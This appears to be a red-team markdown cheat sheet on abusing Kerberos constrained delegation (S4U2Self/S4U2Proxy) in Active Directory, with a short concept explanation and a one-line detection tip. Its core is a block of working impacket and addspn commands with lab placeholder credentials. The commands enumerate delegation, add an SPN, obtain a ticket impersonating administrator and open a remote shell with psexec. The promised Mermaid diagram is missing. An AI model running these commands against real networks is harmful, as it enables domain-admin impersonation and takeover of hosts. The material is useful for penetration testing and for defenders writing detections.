

# Constrained delegation abuse (S4U2Self/S4U2Proxy)

### Affected object / attribute
**`msDS-AllowedToDelegateTo`** on a service account, plus **`TRUSTED_TO_AUTH_FOR_DELEGATION`**.

### Concept (deep)
The service is restricted to specific SPNs. With **protocol transition**, the service can obtain a ticket **to itself on behalf of any user** (**S4U2Self**), then **S4U2Proxy** to obtain a ticket to the delegated SPN as that user. Compromising the service account → impersonate DA to the allowed service.

### Attack flow (Mermaid)


### Exhaustive commands
```bash
# ── Enumerate delegation ─────────────────────────────────────────────
impacket-findDelegation 'corp.local/kcduser':'Password123!' -dc-ip 10.0.1.200

# ── Add an SPN if the account lacks one ─────────────────────────────
python3 addspn.py -u 'corp.local\kcduser' -p 'Password123!' \
  -s host/KCD.corp.local --target-type samname -t kcduser

# ── S4U2Self + S4U2Proxy ─────────────────────────────────────────────
impacket-getST -spn 'cifs/target.corp.local' -impersonate administrator \
  'corp.local/kcduser:Password123!'

# ── Use the ticket ──────────────────────────────────────────────────
export KRB5CCNAME=administrator@cifs_target.corp.local@CORP.LOCAL.ccache
impacket-psexec -k -no-pass corp.local/administrator@target.corp.local
```

### Detection
**4769 S4U2Proxy** without a matching **4768** for the impersonated user; baseline `TrustedToAuthForDelegation`.

---
